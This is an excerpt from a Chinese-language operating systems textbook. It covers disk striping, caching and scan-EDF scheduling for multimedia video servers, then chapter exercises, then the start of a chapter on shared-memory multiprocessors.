第二种可能的组织方式是将每一部电影在多块磁盘上分成条带，图7-24b所示为4部电影的例子。让我们暂时假设所有的帧大小相同（也就是未压缩）。固定的字节数从电影A写入磁盘1，然后相同的字节数写入磁盘2，直到到达最后一块磁盘（在本例的情形中是A3单元）。然后，再次在第一块磁盘处继续分条带操作，写入A4单元，这样进行下去直到整个文件被写完。电影B、C和D以同样的模式分成条带。
由于所有的电影在第一块磁盘开始，这一条带模式的一个可能的缺点是跨磁盘的负载可能不平衡。一种更好地分散负载的方法是交错起始磁盘，如图7-24c所示。还有一种试图平衡负载的方法是对每一文件使用随机的条带模式，如图7-24d所示。
到目前为止，我们一直假设所有的帧大小相同，而对于MPEG-2电影，这一假设是错误的：I帧比P帧要大得多。有两种方法可以处理这一新出现的问题：按帧分条带或按块分条带。按帧分条带时，电影A的第一帧作为连续的单位存放在磁盘1上，不管它有多大。下一帧存放在磁盘2上，以此类推。电影B以类似的方式分条带，或者在同一块磁盘上开始，或者在下一块磁盘上开始（如果是交错条带），或者是在随机的一块磁盘上开始。因为每次读入一帧，这一条带形式并没有加快任何给定电影的读入，然而它比图7-24a更好地在磁盘间分散了负载，如果有许多人决定今晚观看电影A而没有人想看电影C，图7-24a的表现将很糟糕。总的来说，在所有的磁盘间分散负载将更好地利用总的磁盘带宽，并因此而增加能够服务的顾客数目。
分条带的另一种方法是按块分条带。对于每部电影，固定大小的单元连续（或随机）写到每块磁盘上。每个块包含一个或多个帧或者其中的碎片。对于同一部电影，系统现在可以发出对多个块的请求，每个请求要求读数据到不同的内存缓冲区，但是以这样的方式，当所有的请求都完成时，一个连续的电影片断（包含多个帧）在内存中将被连续地组装好。这些请求可以并行处理。当最后一个请求被满足时，可以用信号通知请求进程工作已经完成了，此时它就可以将数据传送给用户。许多帧过后，当缓冲区下降到最后几帧时，更多的请求将被发出，以便预装载另外一个缓冲区。这一方法使用了大量的内存作为缓冲区，从而使磁盘保持忙碌。在一个具有1000个活跃用户和1MB缓冲区的系统上（例如，在4块磁盘中的每块上使用256KB的磁盘块），将需要1GB的RAM作为缓冲区。在1000个用户的服务器上，这样的内存用量只是“小意思”，应该不会有问题。
关于条带的最后一个问题是在多少个磁盘上分条带。在一个极端，每部电影将在所有的磁盘上分成条带。例如，对于2GB的电影和1000块磁盘，可以将2MB的磁盘块写在每块磁盘上，这样就没有电影两次使用同一块磁盘。在另一个极端，磁盘被分区为小的组（如同图7-24那样），并且每部电影被限制在一个分区中。前者称为宽条带（wide striping），它在平衡磁盘间负载方面工作良好。它的主要问题是每部电影使用了所有磁盘，如果一块磁盘出现故障，那么就没有电影可以观看了。后者称为窄条带（narrow striping），它将遭遇热点（广受欢迎的分区）的问题，但是损失一块磁盘将只是葬送存放在其分区中的电影。对于可变大小帧的划分条带，Shenoy和Vin（1999）在数学上进行了详细的分析。
传统的LRU文件高速缓存对于多媒体文件而言工作得并不好，这是因为电影的访问模式与文本文件有所不同。在传统的LRU缓冲区高速缓存背后的思想是，当一个块被使用之后，应该将其保存在高速缓存中，以防很快再次需要访问它。例如，在编辑一个文件的时候，文件被写入的一组磁盘块很可能反复地被用到，直到编辑过程结束。换言之，如果一个磁盘块在短暂的时间间隔内存在比较高的可能性要被重用的话，它就值得保存在高速缓存之中，以免将来对磁盘的访问。
对于多媒体而言，通常的访问模式是按顺序从头到尾观看一部电影。一个块不太可能被使用两次，除非用户对电影进行倒带操作以再次观看某一场景。因此，通常的高速缓存技术是行不通的。然而，高速缓存仍然是可以有帮助的，只不过是要以不同的方式使用。在下面几小节，我们来看一看适用于多媒体的高速缓存技术。
尽管只是将一个块保存起来期望它可能很快再次被用到是没有意义的，但是可以利用多媒体系统的可预测性，使高速缓存再度成为十分有益的技术。假设两个用户正在观看同一部电影，其中一个用户在另一个用户2秒钟之后开始观看。当第一个用户取出并观看了任何一个给定的块之后，很有可能第二个用户在2秒钟后将需要相同的块。系统很容易跟踪哪些电影只有一个观众，哪些电影有两个或更多个在时间上相隔很近的观众。
因此，只要一部电影中的一个块读出后很快会再次需要，对其进行高速缓存就是有意义的，当然是否进行高速缓存还取决于它要被高速缓存多长时间以及内存有多紧张。这里应该使用不同的策略，而不是将所有磁盘块保留在高速缓存之中并且在高速缓存被填满之后淘汰最近最少使用的。对于在第一个观众之后∆T时间之内有第二个观众的每一部电影，可以将其标记为可高速缓存的，并且高速缓存其所有磁盘块直到第二个观众（也可能是第三个观众）使用。对于其他的电影，根本不需要进行高速缓存。
这一思想还可以进一步发挥。在某些情况下合并两个视频流是可行的。假设两个用户正在观看同一部电影，但是在两个用户之间存在10秒钟的延迟。在高速缓存中保留10秒钟的磁盘块是有可能的，但是要浪费内存。一种替代的方法是试图使两部电影同步，这一方法可以通过改变两部电影的帧率实现，图7-25演示了这一思想。
在图7-25a中，两部电影均以每分钟1800帧的NTSC速率播放，由于用户2开始晚了10秒钟，他将在整部电影播放过程中落后10秒钟。然而，在图7-25b中，当用户2到来时，用户1的视频流将放慢，在接下来的3分钟里，它不是以每分钟1800帧的速率播放，而是以每分钟1750帧的速率播放，3分钟后，它正处于第5550帧。与此同时，用户2的视频流在最初的3分钟里以每分钟1850帧的速率播放，3分钟后，它同样也处于第5550帧。从此刻之后，两个视频流均以正常速度播放。
在追赶阶段，用户1的视频流运行速度慢了2.8%，而用户2的视频流运行速度快了2.8%。用户不太可能会注意到这一点。然而，如果对此有所担心，那么追赶阶段可以在比3分钟更长的时间间隔上展开。
一种降低一个用户的速度以便与另一个视频流合并的可选方法是，给用户以在他们的电影中包含广告的选项，与无广告的电影相比，其观看价格比较低。用户还可以选择产品门类，这样广告的侵扰就会小一些而更有可能被观看。通过对广告的数目、长度和时间安排进行巧妙的操作，视频流就可以被阻滞足够长的时间，以便与期望的视频流取得同步（Krishnan，1999）。
在多媒体系统中高速缓存还能够以不同的方式提供帮助。由于大多数电影都非常大（3～6GB），视频服务器通常不能在磁盘上存放所有这些文件，所以要将它们存放在DVD或磁带上。当需要一部电影的时候，它总是可以被复制到磁盘上，但是存在大量的启动时间来查找电影并将其复制到磁盘上。因此，大多数视频服务器维护着一个请求最频繁的电影的磁盘高速缓存。流行的电影将完整地存放在磁盘上。使用高速缓存的另一种方法是在磁盘上保存每部电影的最初几分钟。这样，当一部电影被请求时，可以立刻从磁盘文件开始回放，与此同时，电影从DVD或磁带复制到磁盘上。通过始终在磁盘上存放电影足够长的部分，电影的下一个片断在它需要之前就已经取到磁盘上的概率会很高。如果一切都进行得很好，整部电影将在它需要之前就已经在磁盘上了，然后它将进入高速缓存并且停留在磁盘上以备随后有更多的请求。如果太多的时间过去而没有另外的请求，电影将从高速缓存中删除，以便为更为流行的电影腾出空间。
多媒体对磁盘提出了与传统的、面向文本的应用程序（例如编译器或字处理器）有所不同的要求。特别是，多媒体要求极高的数据率和数据的实时传输。这些都不是轻易就能够提供的。此外，在视频服务器的情形中，让一个服务器同时处理几千个客户还存在着经济压力。这些需求影响着整个系统。上面我们了解了文件系统，现在让我们来看一看多媒体磁盘调度。
尽管多媒体对系统的所有部分提出了巨大的实时和数据率要求，但是它还有一个特性使其比传统的系统更加容易处理，这就是可预测性。在传统的操作系统中，对磁盘块的请求是以相当不可预测的方式发出的。磁盘子系统所能做的最好不过是对于每个打开的文件执行一个磁盘块的预读，除此之外，它能够做的全部事情就是等待请求的到来，并且在请求时对它们进行处理。多媒体就不同了，每个活动的视频流对系统施加明确的负载，使系统成为高度可预测的。就NTSC回放而言，每33.3ms，每个客户将需要其文件中的下一帧，并且系统有33.3ms的时间提供所有的帧（系统对每个视频流需要缓冲至少一帧，所以取第k+1帧可以与第k帧的回放并行处理）。
这一可预测的负载可以用来使用为多媒体剪裁的算法对磁盘进行调度。下面我们将只考虑一个磁盘，但是其思想也可以运用于多个磁盘。就这个例子而言，我们将假设存在10个用户，每个用户观看不同的电影。此外，我们还将假设所有的电影具有相同的分辨率、帧率和其他特性。
根据系统的其他部分，计算机可能有10个进程，每个视频流一个进程，或者有一个具有10个线程的进程，或者甚至只有一个具有一个线程的进程，以轮转方式处理10个视频流。细节并不重要，重要的是，时间被分割成回环（round），在这里一个回环是一帧的时间（对于NTSC是33.3ms，对于PAL是40ms）。在每一回环的开始，为每个用户生成一个磁盘请求，如图7-26所示。
在回环的起始处，当所有的请求都进来之后，磁盘就会知道在那个回环期间它必须做什么，它还知道直到处理完这些请求并且下一个回环开始，不会有其他的请求进来。因此，它能够以优化的方法对请求排序，可能是以柱面顺序（可以想象在某些情形也可能以扇区顺序）排序，然后以优化的顺序对它们进行处理。在图7-26中，显示的请求是以柱面顺序排序的。
乍一看，人们可能会认为以这样的方式优化磁盘没有什么价值，因为只要磁盘满足最终时限，那么它是以1ms的富余满足还是以10ms的富余满足并没有什么关系。然而，这一结论是错误的。通过以这样的方式优化寻道，处理每一请求的平均时间就缩短了，这意味着一般来说每一回环磁盘可以处理更多的视频流。换句话说，像这样优化磁盘请求增加了服务器可以同时传送的电影数。回环末尾的富余时间还可以用来服务可能存在的任何非实时请求。
如果服务器有太多的视频流，偶尔也会出现当要求从磁盘的边缘部分读取帧时错过了最终时限的情况。但是，只要错过最终时限的情况足够稀少，以此换取同时处理更多的视频流还是可以容忍的。注意，要紧的是读取的视频流的数目，每个视频流有两个或更多个客户并不影响磁盘性能或调度。
为了保持输出给客户的数据流运行流畅，在服务器中采用双缓冲是必要的。在第1个回环期间，使用一组缓冲区，每个视频流一个缓冲区。在这个回环结束的时候，输出进程或进程组被解除阻塞并且被告知传输第1帧。与此同时，新的请求进来请求每部电影的第2帧（每部电影或许有一个磁盘线程和一个输出线程）。这些请求必须用第二组缓冲区来满足，因为第一组缓冲区仍然在忙碌中。当第3个回环开始的时候，第一组缓冲区已经空闲，可以重新用来读取第3帧。
我们一直在假设每一帧只有一个回环，这一限制并不是严格必需的。每一帧也可以有两个回环，以便减少所需缓冲区空间的数量，其代价是磁盘操作的次数增加了一倍。类似地，每一回环可以从磁盘中读取两帧（假设一对帧连续地存放在磁盘上）。这一设计将磁盘操作的数目减少了一半，其代价是所需缓冲区空间的数量增加了一倍。依靠相对可利用率、性能和内存费用与磁盘I/O的对比，可以计算并使用优化策略。
在上面的例子中，我们假设所有的视频流具有相同的分辨率、帧率和其他特性，现在让我们放弃这一假设。不同的电影现在可能具有不同的数据率，所以不可能每33.3ms有一个回环并且为每个视频流读取一帧。对磁盘的请求或多或少是随机到来的。
每一读请求需要指定要读的是哪一磁盘块，另外还要指定什么时间需要该磁盘块，也就是最终时限。为简单起见，我们假设对于每次请求实际的服务时间是相同的（尽管这肯定是不真实的）。以这种方法，我们可以从每次请求减去固定的服务时间，得到请求能够发出并且还能满足最终时限的最近的时间。因为磁盘调度程序所关心的是对请求进行调度的最终时限，所以这样做使模型更为简洁。
当系统启动的时候，还没有挂起的磁盘请求。当第一个请求到来的时候，它立即得到服务。当第一次寻道发生的时候，其他请求可能到来，所以当第一次请求结束的时候，磁盘驱动器可能要选择下一次处理哪个请求。某个请求被选中并开始得到处理。当该请求结束的时候，再一次有一组可能的请求：它们是第一次没有被选中的请求和第二个请求正在被处理的时候新到来的请求。一般而言，只要一个磁盘请求完成，磁盘驱动器就有若干组挂起的请求，必须从中做出选择。问题是：“使用什么算法选择下一个要服务的请求？”
在选择下一个磁盘请求时，有两个因素起着重要的作用：最终时限和柱面。从性能的观点来看，保持请求存放在柱面上并且使用电梯算法可以将总寻道时间最小化，但是可能导致存放在边缘柱面上的请求错过其最终时限。从实时的观点来看，将请求按照最终时限排序并且以最终时限的顺序对它们进行处理，可以将错过最终时限的机会最小化，但是可能增加总寻道时间。
使用scan-EDF算法（scan-EDF algorithm）（Reddy和Wyllie，1994）可以将这两个因素结合起来。这一算法的思想是，将最终时限比较接近的请求收集在一起分成若干批，并且以柱面的顺序对其进行处理。作为一个例子，我们考虑图7-27当t=700时的情形。磁盘驱动器知道它有11个挂起的请求，这些请求具有不同的最终时限和不同的柱面。它可以决定将具有最早的最终时限的5个请求视为一批，将它们按照柱面号排序，并且使用电梯算法以柱面顺序对它们进行服务。于是，顺序将是110、330、440、676和680。只要每个请求能够在其最终时限之前完成，这些请求就可以安全地重新排列，从而将所需的总寻道时间最小化。
如果不同的视频流具有不同的数据率，那么当一个新的客户出现时将引起一个严重的问题：该客户是否应该被接纳？如果接纳该客户会导致其他的视频流频繁地错过它们的最终时限，那么答案可能就是否。存在两种方法计算是否接纳新的客户。一种方法是假设每个客户平均地需要某些数量的资源，如磁盘带宽、内存缓冲区、CPU时间等。如果剩下的每一资源对于一个平均的顾客来说都是足够的，则接纳新的客户。
另一种算法更为复杂。它要关注新顾客想要看的特定的电影，查找该电影的（预先计算的）数据率，而对于黑白片和彩色片、卡通片和故事片、爱情片和战争片，数据率都不相同。爱情片运动缓慢，具有较长的场景和缓慢的淡入淡出，所有这些都会充分得到压缩，而战争片具有许多快速的切换和迅速的运动，因此具有许多I帧和较大的P帧。如果服务器对于新客户想要看的电影而言具有足够的容量，那么就准许接纳，否则就拒绝接纳。
多媒体是近些年的热门课题，所以有相当多数量关于多媒体的研究。这些研究中有许多是关于内容、构造工具和应用的，而这些都超出了本书的范围。另一个热门领域是多媒体与网络，这也超出了本书范围。但是关于多媒体服务器的研究，尤其是分布式服务器与操作系统是相关的（Sarhan和Das,2004；Matthur和Mundur,2004；Zaia等人，2004）；支持多媒体的文件系统也是与操作系统相关的研究（Ahn等人，2004；Cheng等人，2005；Kang等人，2006；Park和Ohm，2006）。
优秀的音频和视频编码（尤其是3D应用）对于高性能是很关键的。因此，这些课题也引起了相当程度的关注（Chattopadhyay等人，2006；Hari等人，2006；Kum和Mayer-Patel,2006）。
服务质量对多媒体系统非常重要，所以吸引了相当的关注（Childs和Ingram，2001；Tamai等人，2004）。与服务质量有关的还有调度，以及CPU（Etsion等人，2004；Etsion等人，2006；Nieh和Lam，2003；Yuan和Nahrstedt，2006）和硬盘（Lund和Goebel，2003；Reddy等人，2005）。
在为付费客户提供多媒体广播编排服务时，安全就变得很重要了，所以这个课题也受到了关注Barni，2006。
多媒体是一种非常有前途的计算机应用。由于多媒体文件的巨大和苛刻的实时回放要求，为文本而设计的操作系统对于多媒体而言不是最理想的。多媒体文件包含多重平行的轨迹，通常有一个视频轨迹和至少一个音频轨迹，有时还有一些字幕轨迹。在回放期间，这些轨迹都必须保持同步。
音频通过周期性地对音量进行采样而得以记录下来，通常每秒采样44 100次（针对CD质量的声音）。压缩可以应用于音频信号，得到大约10倍的均匀的压缩率。视频压缩可以使用帧内压缩（JPEG），也可以使用帧间压缩（MPEG）。后者将P帧表示为与前一帧的差，而B帧则既可以基于前面的帧，也可以基于后面的帧。
多媒体需要实时调度以便满足其最终时限。通常使用的算法有两个。第一个算法是速率单调调度，它是一个静态抢先算法，它根据进程的周期将固定的优先级分配给进程。第二个算法是最早最终时限优先调度，它是一个动态算法，总是选择具有最近最终时限的进程。EDF更复杂一些，但是它可以达到100%的利用率，而RMS有时不能达到。
多媒体文件系统通常使用推送型模型而不是拉取型模型。一旦开始一个视频流，则数据位就从服务器不断流出而不需要用户进一步请求。这一方法从根本上不同于常规的操作系统，但是为了满足实时要求这样做是必要的。
文件可以连续存放也可以不连续存放。在后一种情况下，存储单位可以是可变长度的（一个磁盘块是一帧），也可以是固定长度的（一个磁盘块是多个帧）。这些方法具有不同的权衡。
磁盘上文件的存放格局影响着系统的性能。当存在多个文件时，有时使用风琴管算法。横跨多个磁盘将文件分成条带（无论是宽条带还是窄条带）也是常用的。为了改进性能，磁盘块与文件高速缓存策略也得到了广泛的利用。
1.未压缩的黑白NTSC电视能否通过快速以太网发送？如果可以的话，同时可以发送多少个频道？
2.HDTV的水平分辨率是常规电视的两倍（1280像素对640像素）。利用正文中提供的信息，它需要的带宽比标准电视多多少？
3.在图7-3中，对于快进和快倒存在着单独的文件。如果一台视频服务器还打算支持慢动作，那么对于前进方向的慢动作是否需要另一个文件？后倒的方向如何？
4.声音信号用16位有符号数（1个符号位，15个数值位）采样。以百分比表示的最大量化噪声是多少？对于长笛协奏曲或摇滚音乐这是不是一个大问题，或者对于两者是不是问题相同？请解释你的答案。
5.唱片公司能够使用20位采样制作数字唱片的母片，最终发行给听众的唱片使用的是16位采样。请提出一种方法来减少量化噪声的影响，并讨论你的方案的优点和缺点。
6.DCT变换使用8×8的块，但是用于运动补偿的算法使用16×16的块。这一差异是否会导致问题？如果是的话，在MPEG中这个问题是怎样解决的？
7.在图7-10中，我们看到对于静止的背景和运动角色MPEG是如何工作的。假设一个MPEG视频是由这样的场景制作的：在该场景中摄像机被安装在一个三脚架上并且从左到右摇动镜头，摇动的速度使得没有两幅连续的帧是相同的。现在是不是所有的帧都必须是I帧？为什么？
8.假设图7-13中的三个进程中的每个进程都伴随一个进程，该进程支持一个音频流按照与视频进程相同的周期播放，那么音频缓冲区可以在视频帧之间得到更新。所有这三个音频进程都是完全相同的。对于一个音频进程的每一次突发，有多少可用的CPU时间？
9.两个实时进程在一台计算机上运行，第一个进程每25ms运行10ms，第二个进程每40ms运行15ms。RMS对于它们是否总是起作用？
10.一台视频服务器的CPU利用率是65%。采用RMS调度该服务器可以放映多少部电影？
11.在图7-15中，EDF算法保持CPU 100%忙碌直到t=150的时刻，它不能保持CPU无限期地忙碌，因为CPU每秒只有975ms的工作要做。扩展该图到150ms之后并确定采用EDF算法CPU何时首次变为空闲。
12.DVD可以保存足够的数据用于全长的电影并且传输率足够显示电视质量的节目。为什么视频服务器不采用许多DVD驱动器的“储存库”作为数据源？
13.近似视频点播系统的操作员发现某个城市的人们不愿意为电影开始而等待超过6分钟的时间。对于一部3小时的电影，需要多少个并行的数据流？
14.考虑一个采用Abram-Profeta与Shin提出的方法的系统，在这个系统中视频服务器操作员希望客户能够完全在本地向前或向后搜索1分钟。假设视频流是速率为4 Mbps的MPEG-2，每个客户在本地必须有多大的缓冲区空间？
15.考虑Abam-Profeta和Shin方法。如果用户用大小为50MB的RAM用来缓冲，那么一个2Mbps的视频流的∆T是多少？
16.一个HDTV视频点播系统使用图7-20a的小块模型，磁盘块大小为1KB。如果视频分辨率为1280×720并且数据流速率为12 Mbps，那么在一部采用NTSC制式的2小时长的电影中有多少磁盘空间浪费在内部碎片上？
17.针对NTSC和PAL思考图7-20a的存储分配方法。对于给定的磁盘块和影片大小，是否一种制式比另一种制式具有更多的内部碎片？如果是的话，哪一种制式要好一些？为什么？
18.考虑图7-20所示的两种选择。向HDTV的转换是否更有利于其中的一种系统？请讨论。
19.考虑一个系统，它有2KB磁盘块，能存储2小时的PAL制电影，平均每帧16KB。那么用小磁盘块存储方法平均浪费空间是多少？
20.上例中，如果每帧项需要8字节，其中有1字节用来指示每帧的磁盘块号，那么可能存储的最长的电影大小是多少？
21.当每一个帧集合的大小相同时，Chen与Thapar的近似视频点播方法工作得最为出色。假设一部电影正在用同时发出的24个数据流播放，并且10帧中有1帧是I帧。再假设I帧的大小是P帧的10倍，B帧的大小与P帧相同。一个等于4个I帧和20个P帧的缓冲区不够大的概率是多少？你认为这样的一个缓冲区大小是可接受的吗？为了使问题易于处理，假设在数据流中帧的类型是随机且独立分布的。
22.对于Chen和Thapar方法，假设有5个轨道需要8I-帧，35个轨道需要5I-帧，45个轨道需要3I-帧，15个帧从1到2帧中选择，如果我们想保证95帧能被缓冲器容纳，那么缓冲器的大小应该是多少？
23.对于Chen和Thapar方法，假定有一个用PAL制格式编码的3小时电影，需要在每个15分钟内流出。那么需要多少个并发流？
24.图7-18的最终结果是播放点不再处于缓冲区的中间。设计一个方案，最少在播放点之后有5分钟并且在播放点之前有5分钟。你可以做出任何合理的假设，但是陈述要清楚。
25.图7-19的设计要求所有语言轨迹在每一帧上读出。假设视频服务器的设计者必须支持大量的语言，但是不想将这么多的RAM投入给缓冲区以保存每一帧。其他可利用的选择是什么？每一种选择的优点和缺点是什么？
26.一台小的视频服务器具有8部电影。对于最流行的电影、第二流行的电影，直到最不流行的电影，Zipf定律预测的概率是多少？
27.一块具有1000个柱面的14GB的磁盘用于保存以4 Mbps速率流动的1000个30秒的MPEG-2视频剪辑。这些视频剪辑根据管风琴算法存放。依照Zipf定律，磁盘臂花在中间10个柱面的时间比例是多少？
28.假设对于影片A、B、C和D的相对需求由Zipf定律所描述，对于如图7-24中所示的四种划分条带的方法，四块磁盘的期望相对利用率是多少？
29.两个视频点播客户相隔6秒钟开始观看同一部PAL电影。如果系统加快一个数据流并且减慢另一个数据流以便使它们合并，为了在3分钟内将它们合并，需要的加速/减速百分比是多少？
30.一台MPEG-2视频服务器对于NTSC视频使用图7-26的回环方法。所有的视频流出自一个转速为10 800 rpm的UltraWide SCSI磁盘，磁盘的平均寻道时间是3ms。能够得到支持的数据流有多少？
31.重做前一个习题，但是现在假设scan-EDF算法将平均寻道时间减少了20%。现在能够得到支持的数据流有多少？
32.考虑到下面一系列对磁盘的需求，每个需求由一个元组（截止时间（ms），柱面）代表。使用scan_EDF算法后，四个即将到期的需求聚集在一起得到服务。如果服务每个请求的平均时间是6ms，那么有没有错过的终止时间？(32 300)；(36 500)；(40 210)；(34 310)假定当前时间是15ms。
33.再次重做前一个习题，但是现在假设每一帧在四块磁盘上分成条带，在每块磁盘上scan-EDF算法将平均寻道时间减少了20%。现在能够得到支持的数据流有多少？
34.正文描述了使用五个数据请求为一批来调度在图7-27a中所描述的情形。如果所有请求需要等量的时间，在这个例子中每个请求可以允许的最大时间是多少？
35.供生成计算机“墙纸”的许多位图图像使用很少的颜色并且十分容易压缩。一种简单的压缩方法是：选择一个不在输入文件中出现的数据值，并且将其用作一个标志。一个字节一个字节地读取文件，寻找重复的字节值。将单个值和最多重复三次的字节直接复制到输出文件。当4个或更多字节的重复串被发现时，将一个由3个字节组成的串写到输出文件，这3个字节的串包括标志字节、指示从4到255计数的字节和在输入文件中发现的实际的值。使用该算法编写一个压缩程序，以及一个能够恢复原始文件的解压缩程序。额外要求：如何处理在数据中包含标志字节的文件？
36.计算机动画是通过显示具有微小差异的图像序列实现的。编写一个程序，计算两幅具有相同尺寸的未压缩位图图像之间的字节和字节的差。当然，输出文件应该与输入文件具有相同的大小。使用这一差值文件作为前一个习题中的压缩程序的输入，并且将这一方法的效率和压缩单个图像的情况进行比较。
37.实现教材中的基本RMS和EDF算法。程序的主要输入是一个有若干行的文件，每行代表一个进程的CPU请求，并且有如下的参数：周期（秒）、计算时间（秒）、开始时间（秒）、结束时间（秒）。在以下方面对比两个算法：a)由于CPU的不可调度性导致平均被阻塞的CPU请求数；b)平均CPU使用率；c)每个CPU请求的平均等待时间；d)错过截止时间的请求平均数量。
38.实现存储多媒体文件的常量时间长度和常量数据长度的技术。程序的主要输入是一系列文件，每个文件包含一个MPEG-2压缩多媒体文件（如电影）的每帧元数据。元数据包括帧类型（I/P/B）、帧长、相关联的音频帧等。对于不同文件块大小，就需要的总存储空间大小、浪费的磁盘存储空间和平均RAM需求三个方面比较两种技术。
39.在上面的程序上添加一个“读者”程序，它随机地从上面的输入列表中选择文件，使用VCR功能的视频点播或准视频点播。实现scan-EDF算法以便能够给出磁盘读请求。就每个文件的平均寻找磁盘次数比较常量时间长度和常量数据长度这两个方法。
从计算机诞生之日起，人们对更强计算能力的无休止的追求就一直驱使着计算机工业的发展。ENIAC可以完成每秒300次的运算，它一下子就比以往任何计算器都快1000多倍，但是人们并不满足。我们现在有了比ENIAC快数百万倍的机器，但是还有对更强大机器的需求。天文学家们正在了解宇宙，生物学家正在试图理解人类基因的含义，航空工程师们致力于建造更安全和速度更快的飞机，而所有这一切都需要更多的CPU周期。然而，即使有更多运算能力，仍然不能满足需求。
过去的解决方案是使时钟走得更快。但是，现在开始遇到对时钟速度的限制了。按照爱因斯坦的相对论，电子信号的速度不可能超过光速，这个速度在真空中大约是30cm/ns，而在铜线或光纤中约是20cm/ns。这在计算机中意味着10GHz的时钟，信号的传送距离总共不会超过2cm。对于100GHz的计算机，整个传送路径长度最多为2mm。而在一台1THz（1000GHz）的计算机中，传送距离就不足100µm了，这在一个时钟周期内正好让信号从一端到另一端并返回。
让计算机变得如此之小是可能的，但是这会遇到另一个基本问题：散热。计算机运行得越快，产生的热量就越多，而计算机越小就越难散热。在高端Pentium系统中，CPU的散热器已经比CPU自身还要大了。总而言之，从1MHz到1GHz需要的是更好的芯片制造工艺，而从1GHz到1THz则需要完全不同的方法。
获得更高速度的一种处理方式是大规模使用并行计算机。这些机器有许多CPU，每一个都以“通常”的速度（在一个给定年份中的速度）运行，但是总体上会有比单个CPU强大得多的计算能力。具有1000个CPU的系统已经商业化了。在未来十年中，可能会建造出具有100万个CPU的系统。当然为了获得更高的速度，还有其他潜在的处理方式，如生物计算机，但在本章中，我们将专注于有多个普通CPU的系统。
在高强度的数据处理中经常采用高度并行计算机。如天气预测、围绕机翼的气流建模、世界经济模拟或理解大脑中药物-受体的相互作用等问题都是计算密集型的。解决这些问题需要多个CPU同时长时间运行。在本章中讨论的多处理机系统被广泛地用于解决这些问题以及在其他科学、工程领域中的类似问题。
另一个相关的进展是因特网不可思议地快速增长。因特网最初被设计为一个军用的容错控制系统的原型，然后在从事学术研究的计算机科学家中流行开来，并且在过去它已经获得了许多新用途。其中一种用途是，把全世界的数千台计算机连接起来，共同处理大型的科学问题。在某种意义上，一个包含有分布在全世界的1000台计算机的系统与在一个房间中有1000台计算机的系统之间没有差别，尽管这两个系统在延时和其他技术特征方面会有所不同。在本章中我们也将讨论这些系统。
假如有足够多的资金和足够大的房间，把一百万台无关的计算机放到一个房间中很容易做到。把一百万台无关的计算机放到全世界就更容易了，因为不存在第二个问题了。当要在一个房间中使这些计算机相互通信，以便共同处理一个问题时，问题就出现了。结果，人们在互连技术方面做了大量工作，而且不同的互连技术已经导致了不同性质的系统以及不同的软件组织。
在电子（或光学）部件之间的所有通信，归根结底是在它们之间发送消息——具有良好定义的位串（bit string）。其差别在于所涉及的时间范围、距离范围和逻辑组织。一个极端的例子是共享存储器多处理机，系统中有从2个到1000个的CPU通过一个共享存储器通信。在这个模型中，每个CPU可同样访问整个物理存储器，可使用指令LOAD和STORE读写单个的字。访问一个存储器字通常需要2～10ns。尽管这个模型，如图8-1a所示，看来很简单，但是实际上要实现它并不那么简单，而且通常涉及底层大量的消息传递，这一点我们会简要地加以说明。不过，该消息传递对于程序员来说是不可见的。
其次是图8-1b中的系统，许多CPU-存储器通过某种高速互连网络连接在一起。这种系统称为消息传递型多计算机。每个存储器局部对应一个CPU，且只能被该CPU访问。这些CPU通过互连网络发送多字消息通信。存在良好的连接时，一条短消息可在10～50µs之内发出，但是这仍然比图8-1a中系统的存储器访问时间长。在这种设计中没有全局共享的存储器。多计算机（消息传递系统）比（共享存储器）多处理机系统容易构建，但是编程比较困难。可见，每种类型各有其优点。
第三种模型参见图8-1c，所有的计算机系统都通过一个广域网连接起来，如因特网，构成了一个分布式系统（distributed system）。每台计算机有自己的存储器，当然，通过消息传递进行系统通信。图8-1b和图8-1c之间真正惟一的差别是，后者使用了完整的计算机而且消息传递时间通常需要10～100ms。如此长的延迟造成使用这类松散耦合系统的方式和图8-1b中的紧密耦合系统不同。三种类型的系统在通信延迟上各不相同，分别有三个数量级的差别。类似于一天和三年的差别。
本章有四个主要部分，分别对应于图8-1中的三个模型再加上虚拟化技术（一种通过软件创造出更多虚拟CPU的方法）。在每一部分中，我们先简要地介绍相关的硬件。然后，讨论软件，特别是与这种系统类型有关的操作系统问题。我们会发现，每种情况都面临着不同的问题并且需要不同的解决方法。
共享存储器多处理机（或以后简称为多处理机，multiprocessor）是这样一种计算机系统，其两个或更多的CPU全部共享访问一个公用的RAM。运行在任何一个CPU上的程序都看到一个普通（通常是分页）的虚拟地址空间。这个系统惟一特别的性质是，CPU可对存储器字写入某个值，然后读回该字，并得到一个不同的值（因为另一个CPU改写了它）。在进行恰当组织时，这种性质构成了处理器间通信的基础：一个CPU向存储器写入某些数据而另一个读取这些数据。
至于最重要的部分，多处理机操作系统只是通常的操作系统。它们处理系统调用，进行存储器管理，提供文件系统并管理I/O设备。不过，在某些领域里它们还是有一些独特的性质。这包括进程同步、资源管理以及调度。下面首先概要地介绍多处理机的硬件，然后进入有关操作系统的问题。
所有的多处理机都具有每个CPU可访问全部存储器的性质，而有些多处理机仍有一些其他的特性，即读出每个存储器字的速度是一样快的。这些机器称为UMA（Uniform Memory Access，统一存储器访问）多处理机。相反，NUMA（Nonuniform Memory Access，非一致存储器访问）多处理机就没有这种特性。至于为何有这种差别，稍后会加以说明。我们将首先考察UMA多处理机，然后讨论NUMA多处理机。
1.基于总线的UMA多处理机体系结构
最简单的多处理机是基于单总线的，参见图8-2a。两个或更多的CPU以及一个或多个存储器模块都使用同一个总线进行通信。当一个CPU需要读一个存储器字（memory word）时，它首先检查总线忙否。如果总线空闲，该CPU把所需字的地址放到总线上，发出若干控制信号，然后等待存储器把所需的字放到总线上。
当某个CPU需要读写存储器时，如果总线忙，CPU只是等待，直到总线空闲。这种设计存在问题。在只有两三个CPU时，对总线的争夺还可以管理；若有32个或64个CPU时，就不可忍受了。这种系统完全受到总线带宽的限制，多数CPU在大部分时间里是空闲的。
这一问题的解决方案是为每个CPU添加一个高速缓存（cache），如图8-2b所示。这个高速缓存可以位于CPU芯片的内部、CPU附近、在处理器板上或所有这三种方式的组合。由于许多读操作可以从本地高速缓存上得到满足，总线流量就大大减少了，这样系统就能够支持更多的CPU。一般而言，高速缓存不以单个字为基础，而是以32字节或64字节块为基础。当引用一个字时，它所在的整个数据块（叫做一个cache行）被取到使用它的CPU的高速缓存当中。
